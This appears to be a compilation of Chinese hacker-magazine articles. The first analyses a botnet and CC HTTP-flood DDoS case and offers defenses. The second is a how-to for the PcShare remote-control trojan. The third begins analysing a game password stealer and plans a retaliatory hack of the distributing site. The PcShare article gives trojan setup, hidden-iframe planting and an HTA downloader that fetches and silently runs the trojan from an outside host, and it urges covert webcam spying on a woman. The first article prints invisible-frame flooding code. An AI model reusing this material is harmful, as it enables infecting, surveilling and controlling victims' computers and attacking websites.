**WTF：** 最近网络上最吸引眼球的莫过于关于“僵尸网络”的新闻……编辑部经过调查和技术推论，特别策划了本专题一文。

适合读者：普通网民、入侵爱好者、网络管理员

前置知识：无

### 唐山黑客攻击北京网站


#### 技术分解

网络、报纸上曾风传这样的一个新闻：河北省唐山某钢铁公司的一名普通工人徐某，利用黑客工具控制 6 万台电脑组成“僵尸网络”，攻击北京某音乐网站，带来了 700 余万元的经济损失……本文尝试推测整个攻击流程及相关防护办法。

#### 攻击推测

北京某音乐网站的发展危及了徐某音乐网站的访问人数，引起其个人收入下降。徐某试图通过攻击竞争对手的服务器使其不能正常运作，从而吸引用户转移……但由于目标服务器安全措施较好，SYN 攻击与 ACK 攻击效果不佳，攻击方一度束手无策。

正当徐某头疼之时，一种新的 DDoS 攻击思路在网络上出现：CC（利用 HTTP 代理模拟多客户端同时访问，造成服务器瘫痪）。加上他以前写 QQ 尾巴的经验，徐某形成一个完整的攻击组合模式：病毒+木马->僵尸机器，利用比代理还多的僵尸机器同时访问北京音乐网，看看它还能不能挺住。

徐某首先在他的音乐服务器 `www.xu.com`（虚构 URL）上开设一个目录，名为 `NewMusic`。在这个目录下制作一个 `index.htm` 页面，该页面会利用 Internet Explorer 的漏洞，在用户访问时自动下载并执行 EXE 文件 `MiniD.exe`。

- `MiniD.exe` 仅约 10K。  
- 运行时自动到指定位置下载 `IPXSRV.exe`。  
- 下载完成后自动运行 `IPXSRV.exe`。  
- 最后删除自身。

- 检测系统是否已存在 `IPXSRV.exe`，若存在则退出避免重复感染。  
- 根据随机数判断新文件名（可能改名为 `NWLINK.exe`）。  
- 写入注册表 `HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\Current Version\Run` 与 `RunServices` 以便开机启动。  
- 定时检测 QQ 聊天框并自动发送诱导消息（含 `www.xu.com/NewMusic` 链接）。  
- 每 30 分钟访问 `www.xu.com/NewMusic/Upgrade` 获取新版或任务，并向 IRC 报告状态。  
- 接到 ICMP 攻击指令后持续向指定服务器发包。  
- 接到 Proxy 指令时自动开放 HTTP 代理端口，用于隐藏身份。  
- 接到 HTTP 攻击指令后，持续模拟 IE 访问指定 Web 服务器页面。

> 攻击者只需把攻击指令写成页面内容并发送到 Web 服务器指定页，不需逐个通知僵尸机。僵尸机上的 `IpxSrv.exe` 访问该页后按指令攻击指定服务器。

由于程序使用 QQ 作为攻击载体，几乎所有 QQ 用户都存在被感染风险。大量用户可能因好奇、受骗或误点而触发下载执行。

Internet Explorer 没有打上补丁时，访问该网页就可能被植入木马。感染机器数量短期内几何级增加，IRC 服务器不断收到中毒主机报告，同时在线僵尸机可达数万。被选中的 Web 服务器会先变慢，随后在大量僵尸机攻击下无法访问，最终失联。

测试成功后，目标改为北京某音乐网站。网站尝试登录验证、静态化、增加带宽与服务器规模等手段，仍难以抵挡，最终陷入瘫痪。僵尸机器网络控制图如图 1 所示。


#### Web 攻击原理

根据以上推测，可大致还原攻击流程与前因后果。下面从技术角度分析该事件的技术成分以及攻击者使用的黑客技术。

#### 1. 隐蔽性

在本次攻击中，攻击者只需提交攻击指令，不必直接参与攻击，隐蔽能力显著提升。对被攻击者而言，访问请求看似合法，来源于不同地区合法 IP，且操作系统、浏览器各异，难以将攻击者与普通访问者区分。

> 僵尸主机看起来像真实访问者，只是其访问由 `IpxSrv.exe` 在用户不知情时发起；对服务器而言几乎无法区分。

#### 2. 高效性

假设有 6 万台僵尸机在线，每 30 分钟取一次指令，对指令机负担很小；但对目标服务器而言，若每台僵尸机每秒访问一次，总访问量可达约 60000 次/秒，足以压垮普通站点。

仅仅只需要 30 分钟就能实现，在攻击的过程中不断有傀儡机下线的同时也会有新的傀儡机上线，由它们组成的攻击源源不断。

#### 3. 概念解释

有的朋友会说我看到许多论坛的同时在线人数都达到了 2000 以上，但还是很快。这说明服务器在 2000 次/秒的访问中能够运行得很好，这里我就需要对 HTTP 拒绝服务做一个数学解释了。

- 论坛的在线人数有 2000，并不表示 2000 个人都在同一个时间访问论坛，只是说最近活动在论坛上的有 2000 人（很多论坛把 20 分钟内活动过的朋友都算在线人数）。我们假设每人每分钟看一个页面，那么平均下来每秒同时访问的用户最多才 30+，这个数量通常可以支持。  
- 是否可以通过访问人数判断服务器性能？不能一概而论。文件类型不同，消耗资源差异很大，例如一个 10KB 的 TXT 与一个不足 100 字节的 ASP 文件可能后者更耗系统资源。

```asp
<%do while i!=1
Loop%>
```

这段代码一旦运行，至少会导致服务器有 1 分钟时间出现 CPU 占用 100% 的情况。

- 总的来说，系统资源占用：外部联系（如 TCP、DNS 查询）> 数据库访问 > 动态运算页面 > 静态页面。  
- 资源消耗导致拒绝服务的计算模型：假设服务器资源为 1000/秒，页面 A 每次消耗 3 单位，则每秒约可处理 333 人；若 1000 人并发，处理会排队，等待时间逐秒累积并放大。


这样一来，服务器的处理能力明显下降。第一秒的用户等待了 3 秒才得到计算结果，第二秒的用户需要 11 秒……后续用户等待时间持续增加，最终导致服务器当机，用户无法访问。

第 3 秒的用户需要 10 秒，第 4 秒需要 9 秒，第 5 秒需要 36 秒……第 14 秒需要 27 秒，第 15 秒需要 105 秒……时间阶段性呈几何级数递增，最终结果就是服务器当机，任何用户均无法访问。

> 傀儡机访问 Web 和 IRC 来实现对控制端的反向访问；对于多 HTTP 客户端效果可参考相关 DDoS 工具 CC 的示范，利用 CC 可以较好地模拟出 2000 用户同时访问的效果。

#### IPXSRV 的替代品 CC

CC 是一种利用 HTTP 代理模拟多客户端同时访问的工具，从早期版本到新版本不断改进，可实现 Web 服务器压力测试，甚至导致拒绝服务。与 WebStress 相比效率更高、资源消耗更少，但分析功能较弱。


> Refer 表示访问者来自什么页面；Mozilla 字段可模拟访问者浏览器/系统；Cookie 用于标识与会话通信。通过这些 HTTP 字段可以更真实地伪造访问用户信息。

根据上面提到的 HTTP 知识，我们很容易填写需要模拟的用户信息。图 3 示例为针对日本论坛的测试参数。

回到本案例中，开始填写攻击参数：Proxy List 为代理列表，格式为 `<IP>:<Port>`；Load 可从文件导入，Clear 可清空列表，Save 可保存当前列表内容到文件，方便下次使用。Attack list 就是攻击的目标页面，添加格式为 `<G|P> URL`，G 表示 GET 模式，P 表示 POST 模式。图中的例子表示用 GET 模式访问如下的 URL：

```text
http://www3.plala.or.jp/yoshiya/plalaboard/showthread.php?t=+N4
```

这里 `+N4` 程序会自动转变成为 4 个随机数字（需要 TYPE 中的 RND 被勾上，否则系统将直接发送 +N4 到目标 Web 服务器）。CC 的随机参数也非常灵活，用于绕过缓存访问不同页面。随机参数格式如 `+Xn`：X 是随机类型，n 是长度（1~9），如 `+S3`、`+s2` 等。Thread 表示增加的线程数，点击 Attack 将增加攻击线程，灰色数字表示当前已运行线程。

按图中的参数设置好，只要代理有效，10 秒后网页出现空白，60 秒后连接困难，300 秒后服务器基本无法连接。这样的攻击很容易实现：找到一定数量代理即可在瞬间模拟出成百上千用户同时访问网站。

测试环境：C4 1.7G，DDR 256MB，LAN 10Mb，CC 开 600 线程，使用 2000 个有效代理。测试结果：实际连接数约 60 个/秒，CPU 时间 <20%，内存使用 <10MB。被测试服务器：双 CPU、1G 内存、Windows 2003、LAN 100Mb。被测结果：模拟访问 HTML 静态页影响不明显，访问 ASP 数据库页几乎导致服务崩溃，连接成功率 <5%，成功连接且上线 >90%，能成功获得数据 <1%。

### B*事件

“僵尸网络”攻击大家很少见到却难以想象其破坏性。文中举例：2005 年初“B*攻击 8* 网站”事件，利用某 Web 服务器特殊代码使大量网民在不知情情况下不断访问目标站点，最终导致拒绝服务。从技术实现上看，这是一种不需要在普通用户电脑安装软件的“僵尸网络”攻击方式。

#### 无需攻击，真高明！

曾几何时，中国互联网以访问量为评价标准，不少站长使用“交换计数器”增加流量：在页面放置大量不可见计数器（如 0×0 图片），用户浏览一个页面时会在不知情下给其他站点带来访问量。后来随着统计分析和用户意识提升，该方法逐渐失效。

B 搜索引擎把这种古老方式变成了 DDoS 工具，过程如下：

- B 搜索引擎提供流行 Search 工具，网站可嵌入其 JavaScript 代码并显示搜索框。  
- B 对 8* 公司有意见，试图“给点颜色看看”。  
- 在 Search 工具代码中偷偷加入一行不可见图片请求代码。  
- 含该代码的页面被调用时，用户会自动访问 8* 公司页面，造成额外海量请求并拖垮服务器。  
- 最终形成拒绝服务。

```html
</IMG>
```

> 以下代码不会在浏览器上显示图片，但会发送一个请求给目标服务器。

```html

<frame src="http://www.8*.com" width=0 height=0 frameborder=0></frame>
```

文中进一步解释：`height=0`、`width=0`、`border=0` 使资源不可见，但浏览器仍会发起请求；`frame` 同理可构造不可见框架请求。

这种方式可在不知情情况下给你的目标带来数十倍、甚至上百倍的访问量。当该文件的访问量达到一定数目时，给对方带来压力将是非常可怕的。而且这种攻击由于攻击源都是无辜的普通用户，无法在防火墙上面做任何设置，可以说是防不胜防。

通过验证过程，就无法通过软件模拟来制造多线程的合法访问，避免因为非法访问使得数据库资源耗尽而拒绝服务。另外，在这样的保护下，SQL Injection 漏洞也得到了很好的防御。

#### 从服务器角度防御

道高一尺，魔高一丈，有矛必有盾。这样的攻击方式很难防护，但是也绝对不是不能防护。下面讨论一下防御方法。

**1. 利用参数变换保护数据库访问频率：** 对于使用到数据库或者其他文件资源的动态页面可以使用参数变换……页面在解码过程中利用验证码就拒绝了非法客户的访问，避免了恶意客户的数据库访问。

```vb
<%
Function Encrypt(id)
    StrR=""
    Chk=0
    For x=1 to len(id)
        StrR=StrR&chr(95+x+cint(mid(id,x,1)))
        Chk=Chk+CInt(mid(id,x,1))
    Next
    Chk=Chk mod 26
    StrR=StrR&chr(95+chk)
    Encrypt=StrR
End Function

Function Decrypt(str)
    StrR=""
    For x=1 to len(str)-1
        u=(asc(mid(str,x,1))-x-95)
        StrR=StrR&u
        Chk=Chk+u
    Next
    Chk=Chk mod 26
    if right(str,1)<>chr(95+chk) then
        response.write "验证错误"
        response.end
    end if
    Decrypt=StrR
End Function
%>
```

调用 Encrypt(1235) 得到 acehj，调用 Decrypt("acehj") 得到 1235；只有正确格式才能得到正确结果，其它字符将返回“验证错误”。

通过这样的保护变化，客户访问的是 `news.asp?id=acehj`，无法看到实际 id 为 1235，随机生成的 id 又无法通过验证过程……

- 可以增加函数变化的强度，降低函数被猜测出具体过程的概率。  
- 可以把函数运用到 Cookie 中，对 Cookie 做相应变换，增强防御手段的隐蔽性。  
- 可以把客户 IP 加入函数运算过程，不光增强函数强度，还达到防止盗链功能。  
- 可以把时间加入函数运算，不仅节约服务器存储空间，而且服务器只要解码字符串即可判断客户信息。

程序可以改进的地方还有好多，虽然能从多方面保护服务器，但也要注意使用方法，比如时间与空间开销需要根据服务器性能进行调整。

**2. 在代码层提高程序运行效率**，增加服务器运行能力，减少被拒绝服务的可能。这里有两个添加数据的代码比较。

```vb
代码一
<%
sql="select * from users"
rs.open sql,conn,1,3
rs.addnew
rs("username")="TEST"
rs("password")="123456"
rs.update
rs.close
%>
```

```vb
代码二
<%
sql="insert into users (username,password) values ('TEST','123456')"
rs.open sql,conn,1,3
%>
```

明显地，代码二的效率要比代码一高得多，特别是当数据库体积较大或者进行多次重复操作时，效率提升相当可观。代码的好坏决定了程序优劣，进而决定服务器抗击 DDoS 的能力。

**3. 限制代理用户的访问：** 对代理用户访问的限制可以有效防止黑客利用 CC 工具进行攻击，限制代理使用、增加暴露可能，能降低被攻击的概率。限制代理的示范代码如下：

```asp
<%
Dim fsoObject
Dim tsObject
dim file
if Request.ServerVariables("HTTP_X_FORWARDED_FOR") = "" then
    response.write "系统正常"
    response.end
end if
Set fsoObject = Server.CreateObject("Scripting.FileSystemObject")
file = server.mappath("CCLog.txt")
if not fsoObject.fileexists(file) then
    fsoObject.createtextfile file,true,false
end if
set tsObject = fsoObject.OpenTextFile(file,8)
tsObject.WriteLine Request.ServerVariables("HTTP_X_FORWARDED_FOR")&"["&Request.ServerVariables("REMOTE_ADDR")&"]"&now()
Set fsoObject = Nothing
Set tsObject = Nothing
response.write "系统维护中"
%>
```

这个代码能够识别出大部分的代理访问（有代理访问就显示“系统维护中”，并记录真实 IP[代理 IP] 到文件“CCLog.txt”）。这段代码可以按用户自己的要求修改后写在 `Conn.asp` 里面，就能起作用了。当然，代理是个双刃剑，对代理的限制也一样，禁用代理访问会给一部分用户的正常访问带来不便（比如网吧用户），所以要考虑后使用。

**4. 使用 HTTPS 协议。** 使用 HTTPS 协议可以说好处多多，可以对传输数据的安全性给予充分保障。由于 HTTPS 协议的复杂性，能对 HTTPS 协议进行攻击的方式也相对少得多。HTTPS 如果使用非标准端口，基本可以杜绝所有的代理攻击（许多代理只允许 CONNECT HTTPS 的标准端口 443），还避免了多线程下载，降低服务器压力。但是由于 HTTPS 协议的复杂性，服务器性能相对 HTTP 协议会低些；对客户电脑性能的要求也有所提高，例子：<https://www.xfocus.net/bbs>。

**5. 减少动态文件的使用，增加静态文件使用。** 动态文件可以给大家带来丰富多彩的页面，充分发挥设计者的聪明才智，实现许多有用的功能，还能节省页面开发时间。但方便的同时带来的是服务器资源消耗提升（需要访问数据库的动态页面比显示同样内容的静态页面所消耗的系统资源要多出数倍），所以许多大论坛都尽可能把访问量大的帖子做成静态页面（比如 mop、天涯），还有许多新闻系统也使用静态页面（比如 news.163.com）以增加服务器的抗攻击能力。

**6. 合理设置防火墙。** 防火墙能够有效地检测出攻击，并对攻击进行积极防御，但是如果对防火墙的设置不合理，反而有可能出现防火墙负载能力比服务器还差的情况，拒绝服务攻击产生的根源变成了防火墙（某公司防火墙在 CC 的攻击测试中比服务器先死机，造成服务器断网）。

**7. 有条件的服务器可以使用端口重定向功能。** 80 端口只负责做页面转向，具体提供服务的端口由系统动态决定，通过 80 端口转往。实例图如图 4 所示。


当然，这里可以有进一步的改进，就是取消最后一个关闭和前面的开启，根据时间和客户的 IP 决定客户可以访问的端口，对于符合要求的就接受访问，不符合的就不允许连接，客户可以通过对 80 端口的访问获得自己被允许的端口。

**8. 对于已经遭受攻击的服务器**，可以在使用以上手段防御的同时，考虑增加服务器集群以提升服务能力。当然，最好的方法还是拿起电话，拨打 110，利用法律手段，不让攻击者逍遥法外。

**9. 特别提一下虚拟主机服务商的防御。** 由于同一虚拟主机上的客户很多，服务商没有办法让所有客户都按要求完成任务，一定记住给每个用户设置最大连接数和 CPU 的使用。以 Windows 2003 的设置为例，连接设置如图 5 所示。


修改默认 120 秒到越小越好，但是不能太小（时间越长，能运行的 ASP 内容就越多，相应地占用的系统资源也越多，有些数据统计需要相当长的 ASP 运行时间），根据具体 ASP 页面运行情况而定。对于非要长时间运行的内容可以考虑放到后台运行。网站连接限制如图 6 所示。


这里一般按需分配，以不影响服务器和客户正常使用为宜。一般的静态页面、网站不大的话，50 就足够了；但是如果经常有人下载文件，就会长时间占用一个连接。还有 CPU 限制、带宽限制等，都能在一定程度上避免拒绝服务的发生，不会因为黑客针对某个网站的 HTTP 连接攻击导致整个服务器的拒绝服务。

#### 普通用户的防御

普通用户一不注意，就往往成为攻击者的帮凶。大家都要从自我做起，增强自我保护意识，以免被恶意攻击者利用。

- 1. 上网时注意养成良好的习惯，不要随便点击不明网站，以免被安装病毒木马。现在 Internet Explorer 和 Outlook 漏洞随时都有可能新出，用户不太注意，但是黑客可能特别在意，一出新漏洞就积极利用，利用诱人的关键字吸引用户访问，达到给用户安装病毒和木马的目的。用户需要及时修补 Windows 系统漏洞，如图 7 所示。


点“工具->Windows Update”可以对 Windows 和 Internet Explorer 还有 Outlook 的漏洞作修补，建议大家经常访问。

- 2. 及时对操作系统和应用软件升级，尤其是经常使用的软件，比如上网浏览工具和收发 E-mail 的工具。还要注意及时升级杀毒软件，防范于未然。杀毒软件的升级以 McAfee 8.0 为例子，如图 8 所示。

- 3. 宽带用户注意自己宽带设备的设置（如 ADSL 猫和 LAN 宽带路由器等），宽带设备往往带有硬件防火墙，但是设置不当，通常不光设备成为黑客入侵的跳板，甚至宽带账号也被黑客窃取，造成经济上的损失。


- 4. 不要轻易试用来历不明的软件。现在许多人都能自行编写程序，网络上也有许多杀毒软件无法识别的木马和病毒，通常在试用的同时就会给自己的机器带来隐患。大的文件可能是功能强大的后门木马，小的也可能是木马自动下载运行器。建议大家下载软件都到类似天空下载这样的地方，比较可靠，不要随意乱下载。

- 5. 设置好浏览器的安全等级，防范 Java 脚本攻击带来的不安全因素，如图 9 所示。进入自定义级别，如图 10 所示。对相应的内容作相应设置，比如下载未签名的 ActiveX 控件就应该禁用。对于下载已签名的 ActiveX 控件，建议按需启用。


有矛就有盾，再强大的、再隐蔽的攻击都有防御的方法。法网恢恢，疏而不漏，不论怎么隐蔽的攻击，总有被发现的时候。希望大家都能在网络上愉快地查找自己的资料，也希望攻击的朋友都停手，还网络一片安宁。

WTF：依然记得早期 20CN 那个界面清爽的小木马，随着时间的推移众多黑迷们开始逐渐接受它。它的功能也不断地增强和更新，PcShare 终于在灰鸽子和其他各种优秀木马和远控程序中脱颖而出，并广受好评，在内网控制内网、外网控制内网等诸多高强度应用中走在同类软件的前面，热门程度已经不亚于当年的冰河。

适合读者：木马爱好者，入侵爱好者  
前置知识：无

### 国产木马新秀 PcShare


文／图 无可非议 光之神谕

远程控制软件首先作为网络管理员的远程管理工具，已经被各位黑迷熟练使用，成为了大家手上的终极武器。各类远程控制软件发展到现在已经开创了如反弹端口连接、进程插入、HTTP 隧道等众多的先进技术，相信广大黑迷都有一款自己最中意的远程控制软件吧。

最近一段时间，一款功能强劲的远程控制软件开始流行起来，它就是一直受到广大黑客爱好者青睐的 PcShare。软件作者无可非议经过不断的开发和更新，从 2005 年 2 月左右开始正式推出 PcShare2005 版本。该软件最大的特点是功能强大、操作简易，真是集各种远程控制先进技术于一身，下面就和笔者来体验一下 PcShare，相信大家一定会喜欢上这款软件。

独立 IP 地址、ADSL 拨号上网类型的用户都是动态 IP，断开拨号后重新连接又会获得一个新的外网 IP。软件上有一个“刷新 IP”的按钮，这个功能就是针对动态 IP 的。在使用这个功能之前我们必须有一个 FTP 空间，没有 FTP 空间的朋友可以到 `http://club.51.net/signfree.php` 填写一些信息申请一个。如图 2 所示。


申请之后邮箱会收到一封空间激活信，你就可以使用这个空间了。我这里申请了一个 justdohack.go.51.net 的域名。点击“刷新 IP”的按钮，填入正确的 FTP 空间的信息和外网 IP 地址。如图 3 所示。

#### 服务端的配置

PcShare 无须安装和第三方控件支持，先拿到一个软件压缩包，解压缩到一个文件夹即可使用。点击主控程序 PcShare.exe，马上就看到了软件的界面，感觉非常整洁，各个功能都对应菜单上一个简单的按钮，经常使用远程控制软件的朋友对这些功能都不会陌生。如图 1 所示。


我们先来配置一个服务端，说到这里很多菜鸟都会头痛，远程控制软件的配置一般都很复杂，特别是基于反弹端口连接技术的远程控制软件，配置不正确的话，网鸡根本就不会上线。现在大家大都是 ADSL 拨号上网，都拥有自己的外网 IP，这个外网 IP 就是计算机在因特网上的标识。


现在就可以刷新 IP 了，成功后会弹出刷新 IP 成功的对话框。用过 FTP 上传的朋友应该知道这里的 FTP 刷新其实就是上传一个包含你 IP 信息的文件到 FTP 空间里。填写刷新 IP 信息时一定要注意 FTP 文件路径，路径是 FTP 空间默认的 Web 路径，而这里刷新的文件大家完全可以自定义成 gif、jpg、rar、css 等各类文件，这样可以防止一些空间对文件上传和访问的限制，大大方便了我们。

刷新 IP 的功能说了这么多，做到这一步后，就可以很方便地生成服务端了，点击“生成客户端”的按钮（在窗口第二项的复选框打上钩，然后填写刚才刷新 FTP 的文件在网上的地址，我这里的是 `http://justdohack.go.51.net/pcshare.jpg`，点一下旁边的“测试 URL”的小按钮，会出现测试 URL 内容成功和 IP 地址的窗口，如图 4 所示。


到了这一步就大功告成了，放心生成一个服务端给别人运行吧，对方电脑马上就会在控制区域的窗口显示，就这么简单的两步我们就可以实现外网控制内网和外网控制外网了。

对于内网的用户，被控制端的反向连接只能通过服务器的中转，然后才能达到控制端。现在国内各类内网建站软件陆续多了起来，给内网用户带来了福音，内网用户配合内网建站软件使用 PcShare 非常简单。首先下载 `http://www.dns0755.net/ddns/client/truehost.zip`，安装好内网通，然后到 `http://www.dns0755.net/ddns/usr_reg1.php` 去申请一个属于自己的用户名，登录后可以申请一个科迈内网二级域名，我这里的是 testps.dns0755.net，如图 5 所示。


下面我们打开安装好的内网通软件，如图 6 所示。直接填写注册的域名和登录密码，然后点“增加域名”就可以了。最后我们打开“生成客户端”功能窗口，在第一项把申请的域名填写进去，生成一个服务端就行了，如图 7 所示。

经过这样的设置，就可以轻松地实现内网控制内网。


总的来说 PcShare 服务端的配置灵活性高却非常简便，很适合菜鸟使用。其他的配置大家可以参考软件的帮助，无论你是外网还是内网，动态 IP 还是固定 IP，只要能正确配置好服务端就可以方便地控制网马。

#### 木马的种植

PcShare 受广大黑迷的青睐除了简便的操作外，还有小巧的 17KB 服务端，以这么小的尺寸配合各类捆绑软件和网页木马杀伤力极大。这里我就用无心仿心修改的 SP2 网页木马配合 PcShare 服务端制作了一个网页木马。这个网页木马只有两个文件 ray.htm 和 ray.gif，我们只要把生成的 PcShare 改成 ray.exe，最后把这 3 个文件上传到空间的同一目录下就可以了，如图 8 所示。


当别人访问这个 ray.htm 的网页时，就会不知不觉运行 PcShare 的服务端。当然我们也可以在正常的网页里加入一个隐藏框架的代码 `<iframe src="ray.htm" width="0" height="0" scrolling="no" frameborder="0"></iframe>`，在正常的网页里挂上网页木马，这样可以更容易欺骗对方浏览。

```html
<iframe src="ray.htm" width="0" height="0" scrolling="no" frameborder="0"></iframe>
```

除了网页木马，我们还可以使用各种漏洞来实现 PcShare 的种植，如最近流行的 MS05-016 漏洞，可以伪装一个不存在的文件格式让别人运行恶意脚本。这个漏洞需要利用 down.hta 和 MS05-016.exe，代码如下：

```html
<hta:application height="0" width="0" caption="no" border="none" showintaskbar="no">
<html>
<head>
<script language="JavaScript">
window.moveTo(0,0);
window.resizeTo(0,0);
</script>
<script language="vbscript">
On Error Resume Next
Set xPost = CreateObject("Microsoft.XMLHTTP")
xPost.Open "GET","http://www.pcshare8.com/pcshare.exe",0
xPost.Send()
Set sGet = CreateObject("ADODB.Stream")
sGet.Mode = 3
sGet.Type = 1
sGet.Open()
sGet.Write(xPost.responseBody)
sGet.SaveToFile "pcshare.exe",2
set wshshell = createobject("wscript.shell")
a = wshshell.run("pcshare.exe",0)
windows.close
</script>
</html>
```

运行“MS05-016.exe down.hta ps.gif”这个命令可以生成一个 ps.gif 文件，乍看起来像一个 gif 文件，别人运行后就会执行 HTA 脚本，从指定的网址下载 PcShare 服务端并运行。

当然还有各种植入木马的方法，我这里只举了两个最新的例子。PcShare 能和各类漏洞配合，得益于小巧的服务端，更多的方法还靠黑迷们灵活掌握。

#### 控制端的使用

在控制区域的窗口中，我们可以清楚地看到已上线的电脑列表：因特网 IP 地址、客户标识、软件版本、真实地址。下方有一个连接日志区域，在这个窗口里完整显示了被控制端连接的时间、IP 和标识等具体信息，用户还能直接点鼠标右键方便地保存这些日志。

左下角区域显示的是被控制端的硬件信息，如 CPU 主频、内存大小，还能显示被控制端上线登录了多长时间，很人性化的功能。

现在随便选中一个客户，点击功能按钮，我们就可以开始对这台电脑进行远程控制了。我们先来看文件管理功能，PcShare 的文件管理窗口使用的是类似 Windows 自带的资源管理器风格，用户可以实现文件夹浏览、文件删除、创建目录、搜索文件、打开文件、文件上传运行、批量文件上传下载、断点续传等各种操作。在被控制端下线再重新上线后，文件管理可以继续被控制端下线前没有完成的上传下载任务，十分方便。

屏幕控制十分流畅，不会出现图像卡壳的情况，对方在玩全屏游戏也能监控到，还可以对键盘鼠标进行控制，同时可以把监控的内容截图保存下来。

PcShare 带了一个由两个普通 HTTP 连接实现全双工通信的超级终端。对习惯命令行的黑迷，可以在超级终端里键入各种基本命令，感觉完全在操作自己的 CMD 一样。例如，我这里输入了一个 ipconfig 命令，马上就看到了被控制端的 IP 情况，其他的命令就留给大家自己去体验吧。

视频监控 PcShare 也有自己的特色，可以自动打开对方的摄像头，看到对方的样子。现在大家可以用 PcShare 悄悄看自己心仪的 MM，这里可以设置每秒的帧数并保存监控内容为录像，用专用的 PSV 播放器播放出来。由于可以自定义设置监控内容的帧数，因此大大提高了视频监控的质量。

除了上面介绍的功能外，PcShare 还有 3 种常规的远程管理功能：注册表编辑、服务管理、进程管理。注册表编辑和 Windows 的 Regedit.exe 操作完全一样，可以添加、删除、修改各类注册表键值。服务管理功能可以随意停止服务、删除服务和启动服务等。进程管理的功能窗口可以显示各个进程的 PID 号和线程数，也可以直接结束指定的进程。

对于大批量电脑的操作，大家可以一次选中多台电脑，单击鼠标右键就可以看到功能菜单，只要鼠标轻轻一点就可以实现大批量电脑关机、远程卸载、到指定 URL 下载文件运行的功能。这种批量操作还可以更新被控制端程序，可以实现配置新的服务端程序来更新老的配置。

PcShare 这些功能的操作继承了 Windows 管理窗口界面的风格，非常直观，相信大家慢慢会喜欢上这种操作风格。大部分功能和使用方法我就介绍到这里，剩下的就让读者自己深入操作体会吧。

#### 技术上的突破

当被控制端和控制端建立网络连接后，就会建立端口连接来实现通信。PcShare 实现了通信过程的数据加密，可以保证连接的安全性。同时默认的端口连接是从被控制端连接控制端的 80 端口，整个过程以 HTTP 全双工方式通信连接。从被控制端用 netstat 命令查看连接，你将会发现连接的是远程 IP 的 80 端口。利用 FPORT 等进程与端口相关联的网络查看工具查看被控制端的连接，会发现一个 IE 进程在访问远程的 80 端口。

这个连接和普通的 IE 访问网站的连接没有什么区别，其实 PcShare 的进程已经插入了 IE 进程，正以 HTTP 全双工通信方式连接。普通的防火墙会误认为这是一个普通的浏览网站的网络请求，因此 PcShare 就轻松绕过了防火墙的限制，实现了通信连接。

PcShare 仍在飞速开发和更新。由于其软件的开发模式非常独特，各个功能都是以插件功能模块的方式实现，因此在原有的基础上扩展各个插件模块功能，软件将会越来越强大。最新的 PcShare 测试版本的启动方式正从重新建立服务隐藏发展到替换系统服务，同时增加驱动模块来隐藏端口和进程连接，使其更加小巧，达到系统级别的驱动隐藏。相信一定不会让 PcShare 的忠实支持者失望，大家一起期待，PcShare 将开创一个远程控制软件的新时代。

WTF：最近很长一段时间，各大游戏厂商都遇到了同一种烦恼——用户账号被盗。这种事情在天堂 2 和魔兽世界这两个万众瞩目的网络游戏推出以后，变得更加猖獗。私下的盗号卖号，装备武器交易……种种在利益驱使下的非法勾当在夜幕下的发展速度让人震惊。本文针对目前最火的网游之一——魔兽世界，向那些“扒手”们发出了怒吼！

适合读者：木马分析人员，魔兽爱好者

前置知识：逆向工程基础

## 来自魔兽的怒吼

## ——记一次反击盗号者的经历

文／图 [J.T.S]Jambalaya


魔兽世界是一款现如今非常流行的网络游戏，其被热爱程度似乎已超过了当年的《传奇》。随之而来的是各种盗号程序的猖狂，拿别人的利益换钱……这似乎有些说不过去吧？

公司一位大牛的朋友魔兽账户被盗了，60 级的账户，等找回来的时候，身上能拿得走的装备和物品都拿走了，金银也是一分不剩，而且盗号的人还拿着这个号出去卖，以此骗别人的钱，能压榨出来的油水榨得如此干净，想想不禁让人毛骨悚然。曾有人告诉我说盗别人游戏账户的人主要分成两种：一种是没本事找不到饭吃饿的，一种是有本事吃太饱撑的。看这位仁兄的做法，如果不是饿疯了，就一定是吃多了……

大牛扯过来一个网站，告诉我他朋友说就是访问了这个网站，下载了一个插件后，账户丢失的。简单地看了一下，是一个下载站，主要就是外挂程序和一些游戏插件。和大牛商量了一下，确定思路为：一路人马直接搞黄龙，攻击网站，然后在后台挂马，等对方上线管理，再进对方机器参观浏览一下，看看能不能找到一些有用的东西；另一路人马去把上面可能含有木马的程序 download 下来，分析程序并且找出传送密码的方法，然后看看有没有可利用的东西。经过一番锤子剪子布之后，大牛去攻击网站，我去分析程序。

我觉得对方可能使用的方法应该是用 mail 发送密码，或者用 HTTP 的 GET 和 POST 往自己的肉鸡上发送密码，前者要找出 mail 地址和密码，后者就是要找到接收的网站。

随便从这个网站上面拽下来一个程序，UltraEdit 打开，快速浏览一下，这程序居然有两个文件头，肯定是捆绑了。这里八卦一把，我们知道 EXE 文件也就是我们说的 PE 格式，大概由 DOS 部首、PE 标示、image_option_header、Section Table 和 Section 几个部分组成。而所有的 PE 格式文件都会以 MZ 开头，所以在一个 EXE 有两个文件头，那就说明……说明这个 EXE 文件太花心了（“哐当”，wtf 一个跟踪摔倒在地，愣是半天没爬起来）。从两个 MZ 文件头可以判断出对方绑了木马。双击一下看看，报错说什么什么不能执行，估计咱八成已经中了，先看看这个木马给系统做了什么改变或者添加了什么东西，打开 Windows 自带的搜索功能，以时间为关键字搜索一下今天新创建的文件，果然有两个文件“svchsot.exe”和“locarxjh.sls”是刚刚新创建的。

搜索一下今天新创建的文件，果然有两个文件“svchsot.exe”和“locarxjh.sls”是刚刚新创建的。如图 1 所示。


图 1

看来关键是这两个文件。刚才那个文件应该就是个钩子，或者生成这两个文件，或者是个 downloader，现在可以先放在一边不管了。locarxjh.sls 不知道是干嘛的，UltraEdit 打开，也是 MZ 开头，估计也是个 PE 格式文件，应该是类似动态连接库的东西吧，并且在里面看见了一些如魔兽用户名密码一类的格式信息。那么如果是动态连接库，svchsot.exe 一定会在程序中调用 locarxjh.sls，在 VC 的 tools 工具包里翻来翻去，找到了一个查看 dll 中函数的工具 depends.exe，如图 2 所示。


图 2

可以看到 locarxjh.sls 中包含一个 insthook 的函数，就这么一个函数，遗憾的是 depends.exe 不能看出函数传递的参数。

用 UltraEdit 打开 svchsot.exe，如图 3 所示。MZ....PE....FSG! FSG？估计是用 FSG 加壳的，但是是 FSG1.3 还是 2.0，不知道，先去白菜乐园找来了一个 unFSG1.3，脱壳失败，告诉我无法识别 FSG code，不知道是版本问题还是修改过？国内怎么也找不到 unFSG2.0。

图3

